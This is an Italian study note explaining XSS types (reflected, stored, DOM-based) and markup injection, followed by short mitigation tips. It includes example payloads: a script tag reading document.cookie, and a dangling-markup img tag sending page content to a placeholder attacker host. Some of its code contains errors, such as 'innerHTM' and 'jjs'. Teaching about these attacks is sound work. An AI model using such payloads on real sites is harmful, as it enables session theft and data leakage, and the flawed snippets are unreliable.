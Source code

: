 # XSS ( Cross-site-scripting )


> Cos'e' un attacco di tipo XSS?

Un attaco di tipo XSS e' un attacco che permette di eseguire codice JavaScript dal Client senza un permesso esplicito

> Quali tipi di attacchi XSS esistono?

1. Reflected XSS
2. Stored XSS
3. DOM based XSS

> Reflected XSS

Un attacco di tipo Reflected XSS e' un attacco che si riflette sul Broswer, questo vuol dire che l'attaccante puo' avere un controllo totale sulla sessione corrente ( dello stesso utente )

*Esempio*: 

Url: `https://sitovulnerabile.com/resource/stock/?id=<script>document.cookie</script>`

Questo sito returnera' una response 

Response: `<p>Stock: my-cookie</p>`

> Stored XSS

Un attacco di tipo Stored XSS e' un attacco che si riflette su altri utenti, essendo che lo script viene salvato nelle risorse del sito

*Esempio*:

input-utente: "Lascia un commento: " -> `<script> codice malevolo</script>`

Utente X: Ricarica la pagina e' il codice precedentemente inserito dall'attaccante viene eseguito

> DOM based XSS

Un attacco di tipo DOM based XSS e' un attacco che si riferisce al DOM JavaScript. Questo attacco prevede la sovrascrittura del DOM lato Client

*Esempio*:

input: `<script>element.innerHTM(document.getElementById('username').value)`

Response: `Your username: <h1><script> codice malevolo </script></h1>`


> MarkUp injection

Un attacco di tipo MarkUp injection e' un attacco che viene usato quando non e' possibile eseguire un attacco di tipo XSS, questo porta ad avere degli input non protetti in cui l'attaccante tramite codice html riesce a manipolare il sito

*Esempio*:

input: `type="text" name="input" value="Data"> <img src='http://attackersite.it/content=>`

Nota: non viene chiuso il tag html per poter fare che tutti i tags dopo content= vengano presi come query 



# A cosa puo' portare un attacco di tipo XSS?

1. L'attaccante che accede a dati sensibili di altri utenti
2. Injection di malwares 


# Tips per contrastare questa vulnerabilita'
- Controllare l'input che viene inviato dal client
- Encodare l'url, html, jjs 
- Usare cookie di sicurezza